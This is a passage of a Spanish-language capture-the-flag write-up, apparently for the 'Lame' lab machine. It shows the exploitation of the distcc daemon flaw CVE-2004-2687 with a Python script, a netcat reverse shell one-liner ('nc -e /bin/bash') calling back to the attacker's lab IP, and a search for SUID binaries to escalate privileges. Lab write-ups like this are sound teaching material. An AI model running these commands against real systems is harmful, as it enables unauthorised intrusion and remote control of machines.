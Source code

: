 Ejecutamos el exploit con los parámetros indicados y obtenemos una sesión interactiva dentro de la máquina víctima:

```bash
❯ python CVE-2004-2687.py --rhost 10.10.10.3 --lhost 10.10.14.15
[+] Payload: Payload generated!
[+] Execution: DistCC Daemon exploited with success!
[+] Opening connection to 10.10.10.3 on port 3632: Done
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.10.3 on port 55087
[+] Connection: Established connection
[*] Switching to interactive mode
$ whoami
daemon
$  
```

Ahora establecemos una conexión a nuestra máquina para tener una shell y hacemos [Tratamiento de la tty](/posts/tratamiento-tty) para trabajar mas comodos. Nos ponemos en escucha por el puerto 4443:

```bash
$ nohup nc -e /bin/bash 10.10.14.15 4443 &
```

Ahora enumeramos el sistema para determinar como podemos elevar privilegios:

```bash
daemon@lame:/home/makis$ whoami
daemon
daemon@lame:/home/makis$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@lame:/home/makis$ sudo -l
[sudo] password for daemon: 
sudo: pam_authenticate: Conversation error
daemon@lame:/home/makis$ cd /
daemon@lame:/$ find \-perm -4000 2>/dev/null
./bin/umount
./bin/fusermount
./bin/su
./bin/mount
./bin/ping
./bin/ping6
./sbin/mount.nfs
./lib/dhcp3-client/call-dhclient-script
./usr/bin/sudoedit
./usr/bin/X
./usr/bin/netkit-rsh
./usr/bin/gpasswd
./usr/bin/traceroute6.iputils
./usr/bin/sudo
./usr/bin/netkit-rlogin
./usr/bin/arping
./usr/bin/at
./usr/bin/newgrp
./usr/bin/chfn
./usr/bin/nmap
./usr/bin/chsh
./usr/bin/netkit-rcp
./usr/bin/passwd
./usr/bin/mtr
./usr/sbin/uuidd
./usr/sbin/pppd
./usr/lib/telnetlogin
./usr/lib/apache2/suexec
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/pt_chown
```